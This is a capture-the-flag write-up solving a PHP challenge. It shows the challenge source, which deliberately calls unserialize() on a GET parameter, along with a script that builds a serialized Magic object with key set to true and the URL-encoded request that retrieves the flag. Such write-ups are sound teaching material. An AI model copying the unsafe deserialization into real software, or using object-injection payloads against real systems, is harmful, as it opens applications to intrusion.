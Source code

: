 # It is magic after all

![](https://i.imgur.com/1eFastj.png)

- at first, we presented with this website

![](https://i.imgur.com/3MyAGvf.png)

- if we try to open source we are presented with this php code :

```php
 `<?php include "flag.php";    
  
class Magic {  
    public $key;  
  
    public function doMagic() {  
        if ($this->key === true) {  
          global $flag;  
          echo $flag;  
        }  
        else {  
            echo "Nothing...";  
        }  
    }  
}  
  
if (isset($_GET['magic'])) { $magic = unserialize($_GET['magic']); $magic->doMagic();  
} else {  
    print "Nothing...";  
} ?>`
```

- from what understood in the code that the parameter magic should have a serialized Magic class with a variable key set to true so it can output the flag so I wrote this simple PHP code :

```php
<?php

    
class Magic {
    public $key = true;

    public function doMagic() {
        if ($this->key === true) {
          global $flag;
          echo $flag;
        }
        else {
            echo "Nothing...";
        }
    }
} 
    $orig_object = new Magic();
    $serialize_bool_val = serialize($orig_object);
    echo $serialize_bool_val;
?>
```

- which outputs this `O:5:"Magic":1:{s:3:"key";b:1;}` if we url encode it and put it in a magic parameter the url will look like this `http://challenges.defsoc.tk:3000/?magic=O%3A5%3A%22Magic%22%3A1%3A%7Bs%3A3%3A%22key%22%3Bb%3A1%3B%7D`

![](https://i.imgur.com/P8hdDHW.png)

- Flag: flag{php_d3s3r14l1z4t10n_3xpl01ts}